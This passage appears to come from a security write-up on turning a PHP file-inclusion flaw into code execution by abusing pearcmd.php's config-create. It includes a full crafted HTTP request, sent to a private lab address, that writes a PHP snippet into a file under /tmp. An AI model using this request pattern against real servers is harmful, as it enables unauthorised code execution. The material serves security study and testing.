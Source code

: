 ![pearcmd](pearcmd_config-create.png "pearcmd config-cerate")

![config-cerate](pearcmd_create.png "config-cerate")


We can create the files in the terminal, or we can do something more interesting, which is, from the phpinfo.php file, from a crafted URL and execute this function.


To test this action, I used [Caido](https://caido.io/), a web security auditing toolkit similar to [BurpSuite](https://portswigger.net/burp).

In this request, the `<?=phpinfo()?>` function is placed inside the new PHP file:

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/h4ndsh.php HTTP/1.1
Host: 192.168.1.202:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```